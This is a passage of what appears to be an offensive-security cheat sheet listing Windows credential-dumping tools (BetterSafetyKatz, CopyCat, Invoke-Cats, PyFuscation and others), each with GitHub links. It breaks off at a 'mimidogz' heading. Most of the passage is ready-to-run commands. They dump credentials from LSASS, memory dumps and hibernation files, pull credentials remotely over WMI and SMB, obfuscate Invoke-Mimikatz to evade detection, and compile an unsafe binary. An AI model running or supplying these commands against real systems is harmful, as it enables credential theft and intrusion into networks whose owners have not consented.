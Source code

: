 
https://github.com/skelsec/pypykatz


### BetterSafetyKatz

```
.\BetterSafetyKatz.exe --DumpCreds
.\BetterSafetyKatz.exe --Minidump "C:\Windows\Temp\lsass.dmp" --DumpCreds
.\BetterSafetyKatz.exe --RemoteWMI -Target "192.168.1.100" -Username "domain\username" -Password "password123" --DumpCreds
.\BetterSafetyKatz.exe --RemoteSMB -Target "192.168.1.100" -Username "domain\username" -Password "password123" --DumpCreds
```

https://github.com/Flangvik/BetterSafetyKatz


### CopyCat

```
.\CopyCat.exe --dump --local
.\CopyCat.exe --memory "C:\Windows\Temp\memdump.raw" --dump
.\CopyCat.exe --hibernation "C:\Windows\hiberfil.sys" --dump
.\CopyCat.exe --dump --target "192.168.1.100" --username "domain\username" --password "password123"
```

https://github.com/mobdk/CopyCat


### PyFuscation

```
python3 PyFuscation.py -fvp --ps ./Scripts/Invoke-Mimikatz.ps1
```

https://github.com/CBHue/PyFuscation


### Invoke-Cats

```
Invoke-Cats -pwds 
Invoke-Cats -certs 
Invoke-Cats -CustomCommand
```

https://github.com/DanMcInerney/Invoke-Cats


### WinBoost

```
 csc.exe /platform:x64 /target:exe /unsafe winboost.cs
```

https://github.com/mobdk/WinBoost


### mimidogz
